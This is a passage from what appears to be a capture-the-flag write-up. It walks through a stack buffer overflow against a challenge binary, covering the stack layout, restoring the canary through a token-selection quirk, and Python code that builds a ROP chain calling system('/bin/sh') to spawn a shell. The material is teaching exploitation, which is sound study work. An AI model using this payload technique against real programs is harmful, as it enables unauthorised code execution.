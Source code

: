 ### Stack Layout After Overflow

```
Position  Content              Purpose
────────  ─────────────────────────────────────────────
[0-32]    Padding (33 bytes)   Fill buffer up to canary
[33]      Token 107 (canary)   Restore correct canary
[34]      Token 111 (system)   Fake RBP (doesn't matter)
[35]      Token 108 (ret)      Stack alignment
[36]      Token 109 (pop rdi)  Prepare argument
[37]      Token 110 (binsh)    Argument for system()
[38]      Token 111 (system)   Call system()
```

### Calculating the Payload

**Critical: Track combinator state!**

After the leak stage, combinator = 25 (we sent 25 bytes).

```python
# Before overflow, account for combinator state
combinator += 1 + 33  # +1 for saved RBP, +33 for padding

# Now combinator = 59
```

**Building the payload:**

```python
overflow = b"A" * 33  # Literal padding bytes (positions 0-32)

# Select tokens for positions 33-38
overflow += bytes([calc_input(n_tokens - 5)])  # Token 107: canary
overflow += bytes([calc_input(n_tokens - 1)])  # Token 111: fake RBP
overflow += bytes([calc_input(n_tokens - 4)])  # Token 108: ret
overflow += bytes([calc_input(n_tokens - 3)])  # Token 109: pop rdi
overflow += bytes([calc_input(n_tokens - 2)])  # Token 110: "/bin/sh"
overflow += bytes([calc_input(n_tokens - 1)])  # Token 111: system()
```

**Why literal padding vs token selection?**

- **Positions 0-32:** We use literal `b"A" * 33` because we just need to fill space
- **Positions 33+:** We use token selection (`calc_input()`) because we need specific addresses

### What Happens When We Send This?

```
1. Program reads our payload
2. First 33 bytes are processed:
   - Each 'A' (0x41) selects some random token
   - Fills out_buf with junk (doesn't matter)
3. Next bytes select our ROP tokens:
   - Position 33: Selects token 107 (canary)
   - Position 34: Selects token 111 (fake RBP)
   - Position 35: Selects token 108 (ret)
   - Position 36: Selects token 109 (pop rdi; ret)
   - Position 37: Selects token 110 ("/bin/sh")
   - Position 38: Selects token 111 (system)
4. Stack now contains our ROP chain!
5. When function returns:
   - Checks canary ✓ (we restored it!)
   - Returns to our ret gadget
   - ROP chain executes
   - system("/bin/sh") is called
   - Shell spawned! 🎉
```